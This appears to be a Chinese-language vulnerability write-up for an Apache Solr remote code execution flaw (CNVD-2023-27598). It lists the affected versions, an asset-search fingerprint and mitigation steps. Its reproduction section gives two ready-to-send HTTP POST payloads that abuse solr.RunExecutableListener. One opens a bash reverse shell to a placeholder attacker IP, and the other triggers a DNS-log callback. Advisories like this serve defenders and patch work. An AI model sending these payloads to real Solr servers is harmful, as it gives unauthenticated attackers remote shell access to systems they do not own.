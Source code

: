 # Apache Solr 代码执行漏洞 CNVD-2023-27598

# Apache Solr 代码执行漏洞 CNVD-2023-27598

## 漏洞描述

Solr 以 Solrcloud 模式启动且可出网时，未经身份验证的远程攻击者可以通过发送特制的数据包进行利用，最终在目标系统上远程执行任意代码。

## 漏洞影响

```
8.10.0 <= Apache Solr < 9.2.0
```

## 网络测绘

```
app="APACHE-Solr"
```

## 漏洞复现

使用postCommit来命令执行

```
POST /solr/demo/config HTTP/1.1
Host: 192.168.1.92:8983
Content-Length: 180
Content-Type: application/json

{"add-listener":{"event":"postCommit","name":"suiyi","class":"solr.RunExecutableListener","exe":"bash","dir":"/bin/","args":["-c", "bash -i >& /dev/tcp/your-ip/9999 0>&1"]}}
```

通过newSearcher命令执行

```
POST /solr/demo/config HTTP/1.1
Host: 192.168.1.92:8983
Content-Length: 170
Content-Type: application/json

{"add-listener":{"event":"newSearcher","name":"newSearcher3","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "ping -c 3 your-dnslog.dnslog.cn"]}}
```

## 漏洞修复

1. 如果未使用 ConfigSets API，请禁用 UPLOAD 命令，将系统属性：configset.upload.enabled 设置为 false ，详细参考：https://lucene.apache.org/solr/guide/8_6/configsets-api.html
2. 使用身份验证/授权，详细参考：https://lucene.apache.org/solr/guide/8_6/authentication-and-authorization-plugins.html
3. 官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本：
   https://github.com/apache/solr/releases/tag/releases/solr/9.2.0


